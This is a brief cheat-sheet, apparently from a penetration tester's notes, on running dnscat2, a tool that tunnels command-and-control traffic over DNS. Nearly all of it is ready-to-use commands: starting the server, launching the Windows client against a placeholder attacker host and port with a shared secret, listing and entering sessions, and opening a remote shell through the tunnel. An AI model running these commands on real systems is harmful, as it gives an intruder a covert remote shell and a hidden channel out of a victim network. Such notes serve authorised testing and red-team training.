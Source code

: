 ### Source
https://github.com/iagox86/dnscat2  

### Start server without specific domain
```
ruby dnscat2.rb
```

### Start exe client
```
.\dnscat2 --dns server=<lhost>,port=<lport> --secret=<secret>
```

### Start server for interaction with dnscat2-powershell
```
ruby dnscat2.rb --security=open --no-cache --dns domain=<domain>
```


### List sessions
```
dns> session
```

### Interact with session
```
dns> session -i <id>
```

### Start shell
```
shell
CTRL + z
dns> session -i <newId>
```

